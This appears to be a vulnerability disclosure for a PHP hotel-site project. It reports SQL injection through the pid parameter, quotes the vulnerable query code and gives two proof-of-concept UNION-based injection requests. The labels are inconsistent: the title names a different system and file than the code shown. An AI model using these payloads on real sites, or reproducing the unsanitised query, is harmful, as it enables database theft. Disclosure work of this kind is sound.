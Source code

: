# Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/responsive-hotel-site-using-php-source-code/



## Vulnerability file



/admin/print.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
	ob_start();	
	include ('db.php');

	$pid = $_GET['pid'];
	
	
	
	$sql ="select * from payment where id = '$pid' ";
	$re = mysqli_query($con,$sql);
```

###### The key parameter has moved from '$pid' to '$sql'`

## POC1

```
GET /admin/print.php?pid=2'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+fMnC HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5226nusitfi5p0qsg8q74pe0si
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

![image-20250104153049848](https://github.com/Huandtx/cve/raw/main/cve/Responsive%20Hotel%20Site/image-20250104153049848.png))

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

![image-20250104153228228]((https://github.com/Huandtx/cve/raw/main/cve/Responsive%20Hotel%20Site/image-20250104153228228.png))

![image-20250104153334813](https://github.com/Huandtx/cve/raw/main/cve/Responsive%20Hotel%20Site/image-20250104153334813.png))
